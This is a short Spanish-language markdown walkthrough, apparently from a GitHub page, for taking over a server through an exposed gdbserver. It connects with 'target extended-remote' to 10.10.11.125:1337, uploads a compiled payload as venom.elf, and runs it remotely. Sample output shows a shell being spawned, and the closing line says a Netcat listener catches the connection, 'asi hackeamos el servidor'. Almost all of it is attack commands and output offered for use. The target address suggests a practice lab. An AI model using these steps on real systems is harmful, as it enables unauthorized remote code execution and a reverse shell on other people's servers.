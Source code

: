 #### INICIAMOS EL PROGRAMA PARA HACER UN DEBBUGING

`$ gdb`

#### Una vez dentro vamos a mandar una conexion hacia el puerto 1337 y debugear algun backdoor

`$ target extended-remote 10.10.11.125:1337`

#### Creamos un script o programa compilado para crear la conexion remota desde el servidor y subirlo al servidor

`$ remote put pwn.elf venom.elf`

#### Declaramos que programa vamos a ejecutar en este caso vamos a usar venom.elf
`$ set remote exec-file venom.elf`

#### Ahora corremos el script
`$ run`

#### Saldra algo como esto

	Starting program: target:/usr/bin/true 
	Reading /lib64/ld-linux-x86-64.so.2 from remote target...
	Reading /lib64/ld-linux-x86-64.so.2 from remote target...
	Reading /lib64/ld-2.31.so from remote target...
	Reading /lib64/.debug/ld-2.31.so from remote target...
	Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
	Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
	Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
	process 64173 is executing new program: /usr/bin/dash
	Reading /usr/bin/dash from remote target...
	Reading /usr/bin/dash from remote target...

#### Al final tendremos la conexion a la escucha con Netcat y asi hackeamos el servidor



